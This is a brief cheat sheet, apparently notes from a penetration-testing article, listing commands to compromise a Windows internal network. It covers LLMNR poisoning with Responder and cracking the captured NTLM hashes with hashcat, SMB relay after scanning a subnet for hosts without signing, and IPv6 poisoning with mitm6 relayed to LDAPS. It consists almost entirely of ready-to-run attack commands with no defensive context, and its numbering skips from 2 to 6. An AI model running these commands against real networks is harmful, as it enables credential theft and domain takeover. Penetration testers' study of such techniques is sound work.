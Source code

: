 https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa
1. LLMNR Poisoning
```
sudo ./Responder.py -I eth0 -rdwv
hashcat -m 5600 ntlmhash.txt ../../rockyou.txt/rockyou.txt --force
```

2. SMB relay
```
nmap --script=smb2-security-mode.nse -p445 192.168.1.0/24
sudo ./Responder.py -I eth0 -rdwv
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```

6. Ipv6
```
sudo mitm6 -d marvel.local
sudo ntlmrelayx.py -6 -t ldaps://192.168.1.121 -wh fakewpad.marvel.local -l lootme
```
